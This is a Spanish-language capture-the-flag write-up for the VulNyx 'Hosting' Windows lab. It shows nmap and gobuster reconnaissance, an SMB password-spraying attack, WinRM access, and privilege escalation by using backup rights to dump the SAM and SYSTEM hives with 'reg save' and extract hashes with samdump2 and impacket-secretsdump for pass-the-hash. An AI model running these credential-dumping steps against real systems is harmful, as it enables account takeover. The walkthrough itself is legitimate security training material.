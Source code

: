 # WRITEUP - HOSTING - VULNYX

![image](https://github.com/user-attachments/assets/31eec7d3-79fc-4d19-b25b-d9cece00c7ff)
<!--
## Scannning Network
Realizamos un escaneo de la red para determinar la IP a vulnerar:
```shell
sudo netdiscover -r 192.168.1.0/24
```
Una vez determinada la ip, 192.168.1.22, ejecutamos un escaneo de puertos para identificar posibles vectores de ataque.
```shell
nmap -p- --open --min-rate 5000 -n -Pn -sS 192.168.1.22 -oN firstNmap.txt
```

    PORT      STATE SERVICE      REASON
    80/tcp    open  http         syn-ack ttl 128
    135/tcp   open  msrpc        syn-ack ttl 128
    139/tcp   open  netbios-ssn  syn-ack ttl 128
    445/tcp   open  microsoft-ds syn-ack ttl 128
    49667/tcp open  unknown      syn-ack ttl 128


Por máquinas anteriores, vemos que el SMB y netbios están activos, pero no vemos un reconocimiento del puerto de WINRM, por lo que aunque no esté lo incluiremos en el segundo nmap (5985 (HTTP), 5986 (HTTPS))

nmap -p  80,135,139,445,49667,5985,5986 -sVC 192.168.1.22 -oN secondNmap.txt

    PORT      STATE  SERVICE       VERSION
    80/tcp    open   http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows
    135/tcp   open   msrpc         Microsoft Windows RPC
    139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open   microsoft-ds?
    5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  closed wsmans
    49667/tcp open   msrpc         Microsoft Windows RPC
    MAC Address: 08:00:27:A7:D9:FE (Oracle VirtualBox virtual NIC)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-time: 
    |   date: 2024-12-31T10:07:53
    |_  start_date: N/A
    |_clock-skew: -1h00m02s
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_nbstat: NetBIOS name: HOSTING, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:a7:d9:fe (Oracle VirtualBox virtual NIC)

Hay winrm! Como sospechabamos. Supongo que esta inexactitud del escaneo se debe a la velocidad a la que lo realizamos, ya que posiblemente tener un rate como mínimo de 5000 paquetes por segundo, haga que el escaneo no sea del todo fiable.
## Enumeration
Revisamos el escaneo con Nmap e identificamos un servicio web abierto por el puerto 80. Vamos a investigar la página principal mientras se realiza un gobuster sobre el servicio web. 

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/speed_webPage.png>

A través de gobuster encontramos una página speed (GOBUSTER no es recursivo)

```shell
gobuster dir -u http://192.168.1.22 -w /usr/share/dirbuster/wordlists/big.txt -t 50
```

Usamos dirb para la recursión completa y nos encuentra más posibles páginas con la wordlist big.txt, pero nada interesante, solo páginas con acceso restringido.

Revisando la página nos encontramos con unos posibles usuarios, además de un tal John Bond, por lo que añadimos todos a un archivo de posibles usuarios.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/posibles_users.png>

Podemos construirnos una pequeña lista de posibles usuarios. Revisando la web, nos encontramos con el comentario de un usuario diferente (John Bond) en el que aparece con el siguiente formato: j.bond. Con esto podemos intuir que los demás usuarios seguirán la misma nomenclatura, de todas formas para quitarnos de dudas, podemos añadir diferentes formatos de los nombres para no perdernos nada.
## Exploitation
Realizamos un ataque de diccionario sobre SMB con cada usuario y nos encontramos con las credenciales de p.smith.

    SMB         192.168.1.22   445    HOSTING          [*] Windows 10.0 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:123456 STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:12345 STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:123456789 STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:password STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:iloveyou STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:courtney STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [-] HOSTING\p.smith:booboo STATUS_LOGON_FAILURE 
    SMB         192.168.1.22   445    HOSTING          [+] HOSTING\p.smith:kissme

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/loginSMB_psmith.png>

Miramos los shares con p.smith:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/shares_psmith.png>

No hay nada dentro de IPC$.

Podemos intentar entrar con winrm pero no tendrá exito:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/psmith_winrmERROR.png>

Una vez obtenemos la password de p.smith, podemos intentar enumerar shares, usuarios y demás con estas credenciales:
```shell
enm4linux -a -u p.smith -p kissme 192.168.1.22
```
A partir de esta enumeración, si nos fijamos bien, identificamos una posible contraseña del usuario m.davis a través de su descripción. 

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/pass_mdavis.png>

Probamos con dicho usuario pero no parece ser su contraseña. No es la password de m.davis pero podría ser la pass de cualquiera de los otros usuarios, por lo que realizamos un nuevo ataque sobre todos los usuarios con esta contraseña.

La contraseña pertenece a j.wilson.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/jwilson_pass.png>
<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/shares_jwilson.png>

Por la salida de la enumeración de SMB, vemos que p.smith no tiene permisos de acceso remoto pero, j.wilson sí los tiene:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/jwilson_posibleWinrm.png>

Por lo que vamos a intentar realizar un evil-winrm sobre el usuario con las credenciales adquiridas.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/winrm_jwilson.png>

Tenemos acceso como j.wilson, por lo que recogemos su flag:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/jwilson_userFlag.png>

## Privilege Escalation

Ni history de powershell, ni txt en el servicio web con passwords, ni txt en el sistema con posibles paswords. Hemos visto anteriormente que j.wilson tenía permisos de backup gracias a la enumeración por SMB. Vamos a ver qué permisos son:
```shell
whoami /priv
```
<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/priv_jwilson.png>

Podemos hacer copias de seguridad de archivos y directorios, por lo que podemos extraer contenido de la máquina. En este caso, lo interesante para poder pasar al usuario administrador, sería conseguir los archivos SAM (Security Account Manager) el cuál es una base de datos que almacena información de las cuentas de usuario locales, incluidos sus nombres y contraseñas (estas últimas de forma cifrada o con hashes).

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/securitySAM.png>

Para el proposito de conseguir root.txt (flag de root) nos serviría con dumpear c:/Users/administrator/desktop/root.txt y ya, pero vamos a intentar conseguir una shell como administrator para vulnerar la máquina completamente.

Guardamos el archivo en un directorio diferente para llevarnoslo, ya que de forma directa no tenemos permiso de lectura sobre él:
```shell
reg save hklm\sam c:/Windows/temp/sam
```
* Cuidado con las barras al especificar el registro, deben ser invertidas

Con el comando download \<archivo> nos descargamos el archivo en el directorio en el que hemos ejecutado evil-winrm.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/download_sam.png>

Es un archivo binario, existen diferentes formas de sacar el hash, vamos a probar una de ellas.

samdump2 necesita sam y system, por lo que volvemos a la consola de windows y sacamos hklm\system

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/system_dump.png>

```shell
sudo samdump2 system.dump sam -o hashes 
```
* El orden importa, system antes de sam

En vez de perder el tiempo intentando crackear los hashes (como yo hice), puedes entrar con evil-winrm directamente con el hash, hay que tener cuidado porque en mi caso, samdump2 y secretsdump me han dado hashes diferentes, parece que en este caso secretsdump ha conseguido realizarlo mejor por la diferencia de hashes entre los diferentes usuarios.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/diferencia_samDumpvssecretsdumping.png>

```shell
impacket-secretsdump -sam sam -system system.dump LOCAL > hashes2
```
Probamos y con el hash de samdump2 no es correcto, vemos que con el de secretsdump sí conseguimos un acceso como admin:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/admin_login.png>

Una vez dentro, recogemos la flag del administrator:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hosting/Content/root_flag.png>


### Info
https://book.hacktricks.xyz/windows-hardening/stealing-credentials#stealing-sam-and-system

